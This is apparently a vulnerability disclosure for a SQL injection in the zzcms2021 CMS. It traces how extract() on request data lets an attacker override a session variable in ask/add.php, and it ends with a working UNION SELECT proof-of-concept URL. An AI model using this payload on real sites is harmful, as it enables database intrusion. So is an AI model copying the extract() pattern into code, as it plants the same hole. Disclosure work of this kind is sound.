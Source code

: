 + version: zzcms2021
+ source: http://www.zzcms.net/about/6.htm
+ issue: sql injection

# Position
in `ask/add.php` line 91

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217222912.png)

`$_SESSION["bigclassid"]` is an injection point,and `$row["classid"]` is output to the web page 

in `inc/stopsqlin.php`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224927.png)

function `zc_check` filters `$_GET` and `$_POST`,but it won't affect our injection

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217223618.png)

then executes `@extract($_POST);@extract($_GET);`,so we can use the `extract` function to override `$_SESSION["bigclassid"]`

# Poc
`/ask/add.php?_SESSION[bigclassid]=0 union select user(),2,3,4,5,6,7,8,9,10,11--+`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224442.png)